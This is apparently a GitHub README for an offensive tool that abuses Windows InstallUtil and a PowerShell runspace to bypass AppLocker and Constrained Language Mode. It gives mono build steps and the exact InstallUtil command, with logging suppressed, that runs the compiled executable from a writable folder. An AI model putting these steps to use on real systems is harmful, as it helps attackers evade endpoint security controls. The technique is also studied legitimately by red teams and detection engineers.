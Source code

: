 # Install Util Bypass App Locker
Abuse install utility, powershell run space to bypass app locker and CLM, build in linux by mono mcs.


## Requirement
```
sudo apt install -y mono-complete
```

## Build
```
chmod +x ./build.sh
./build.sh
```


## Use
Put the compiled file "install_util.exe" into any writeable folder, and execute following command
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U install_util.exe
```
